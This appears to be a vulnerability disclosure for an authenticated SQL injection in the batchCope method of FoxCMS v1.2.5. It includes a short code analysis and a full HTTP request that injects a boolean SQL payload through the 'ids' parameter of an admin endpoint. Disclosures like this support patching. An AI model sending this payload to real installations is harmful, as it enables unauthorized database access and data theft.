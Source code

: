 # SQL Injection Vulnerability in FoxCMS

**Version: FoxCMS v1.2.5**

**Google Dork: N/A**

**Date: 05/13/2025**

**Tested on: Windows 11, Apache 2.4, MySQL 8.0, PHP 7.3**

**Software Link: https://gitee.com/qianfox/foxcms**

**Description:** A SQL injection vulnerability exists in the `batchCope` method of the controller located at `app/admin/controller/Article.php`. Due to improper handling of the `ids` parameter, user input is directly embedded into a raw SQL query without validation or parameterization. This allows an authenticated attacker to inject arbitrary SQL statements, potentially leading to unauthorized access, extraction of sensitive data, or full compromise of the underlying database.

**code analysis**

The `batchCope` method retrieves the `ids` parameter from user input and directly concatenates it into a raw SQL query without any validation or parameter binding. This allows an attacker to inject arbitrary SQL code through the `ids` parameter, potentially leading to unauthorized access, data leakage, or modification of database contents.

![image](https://github.com/xiaoyangsec/foxcms_sql_injection/blob/main/image-20250513161945913.png)

**Payload used:**

```
POST /index.php/admin1738/Article/batchCope.html HTTP/1.1
Host: www.foxcms.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 41
Origin: http://www.foxcms.com
Connection: keep-alive
Referer: http://www.foxcms.com/index.php/admin1738/Article/index.html?columnId=28
Cookie: PHPSESSID=94901524f6ef7383bc9d9e2730738a3f
Priority: u=0

ids=1)+or+(select database())='foxcms'--+

```

Example：

![image](https://github.com/xiaoyangsec/foxcms_sql_injection/blob/main/image-20250513161636029.png)

![image](https://github.com/xiaoyangsec/foxcms_sql_injection/blob/main/image-20250513161700879.png)

![image](https://github.com/xiaoyangsec/foxcms_sql_injection/blob/main/image-20250513161802423.png)

![image](https://github.com/user-attachments/assets/3dd27721-6a16-4c1b-824b-ca91f01184c1)

